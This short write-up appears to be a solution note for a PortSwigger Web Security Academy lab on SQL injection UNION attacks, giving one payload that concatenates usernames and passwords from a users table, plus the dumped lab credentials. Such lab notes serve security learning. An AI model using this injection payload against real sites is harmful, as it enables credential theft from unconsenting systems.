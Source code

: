 # Lab 

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

## Payload

```sql
/filter?category=Accessories' UNION SELECT NULL,username||','||password from users--
```

### Results

```
administrator, huf48d12wqjkxnfbz7fp
carlos, ikgpzbqyt5zenjte6mm5
wiener, m0pzyvltq388mhpdcdsv
```